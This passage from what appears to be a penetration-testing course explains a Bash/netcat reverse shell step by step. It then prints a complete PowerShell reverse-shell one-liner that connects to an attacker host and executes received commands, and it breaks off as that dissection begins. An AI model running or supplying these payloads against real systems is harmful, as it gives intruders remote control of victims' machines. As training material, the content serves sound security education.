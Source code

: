 #### Output Redirection

```shell
cat /tmp/f |

```

Concatenates the FIFO named pipe file /tmp/f, the pipe ( `|`) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe ( `|`).

#### Set Shell Options

```shell
/bin/bash -i 2>&1 |

```

Specifies the command language interpreter using the `-i` option to ensure the shell is interactive. `2>&1` ensures the standard error data stream ( `2`) `&` standard output data stream ( `1`) are redirected to the command following the pipe ( `|`).

#### Open a Connection with Netcat

```shell
nc 10.10.14.12 7777 > /tmp/f

```

Uses Netcat to send a connection to our attack host `10.10.14.12` listening on port `7777`. The output will be redirected ( `>`) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

* * *

## PowerShell One-liner Explained

The shells & payloads we choose to use largely depend on which OS we are attacking. Be mindful of this as we continue throughout the module. We witnessed this in the reverse shells section by establishing a reverse shell with a Windows system using PowerShell. Let's breakdown the one-liner we used:

#### Powershell One-liner

```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

We will dissect the rather large PowerShell command you can see above. It may look like a lot, but hopefully, we can demystify it a bit.

#### Calling PowerShell
